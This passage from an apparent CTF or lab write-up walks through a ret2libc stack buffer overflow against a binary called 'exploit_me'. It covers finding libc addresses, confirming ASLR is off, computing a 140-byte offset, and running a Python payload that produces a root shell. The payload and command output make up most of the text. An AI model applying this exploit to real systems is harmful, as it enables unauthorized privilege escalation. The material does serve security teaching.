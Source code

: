 ```gdb
```

> `system()` is at address `0xb7e6b060`, `exit()` at `0xb7e5ebe0` and `/bin/sh` at `0xb7f8cc58`. **ESP** is at `0xbffff5b0` and **EIP** is at `0xbffff63c` in this case.

Now we need to check few things before trying to exploit this vulnerability. First, [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) must be off and the [endianness](https://en.wikipedia.org/wiki/Endianness) of this machine.

```shell
  $> sysctl kernel.randomize_va_space
  kernel.randomize_va_space = 0
  $> lscpu | grep Endian
  Byte Order: Little Endian
```

> According to this [thread](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), **ASLR** is disabled, and this machine is in little endian, we'll need to reverse byte order to get the right addresses.

In order to perform this attack we need to generate a segfault in the program. In this case, it means to find the offset from which we start to override stored addresses in **EIP**. To do so, we simply substract the address of **ESP** to **EIP**.

```shell
 $> echo 'ibase=16; BFFFF63C - BFFFF5B0' | bc
 140
```

> Thanks to [`bc`](https://linux.die.net/man/1/bc) we can quickly substract these two by specifying the input base, here **hexadecimal** (16).

Now that we know that the offset must be **140 bytes** we can check it easily using [python string multiplication](https://www.pythoncentral.io/use-python-multiply-strings/).

```shell
  $> ./exploit_me `python -c "print '0' * 139"`
  0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  000000000000000000000000000000000000000000000
  $> ./exploit_me `python -c "print '0' * 140"`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
  Illegal instruction (core dumped)
```

> **139 bytes** works perfectly, **140 and above** segfaults.

Final step is to construct a sequence of bytes after this offset that will execute in order `system()`, `exit()` and finally `/bin/sh` and we have all these addresses to do so!

```shell
  $> ./exploit_me `python -c 'print("\x90"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
  00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`X
  # id
  uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
  # whoami
  root
```

> In Python, `[::-1]` is a way to reverse string, needed here to swap between big and litle endian.

As you can see, we are now root on this machine!

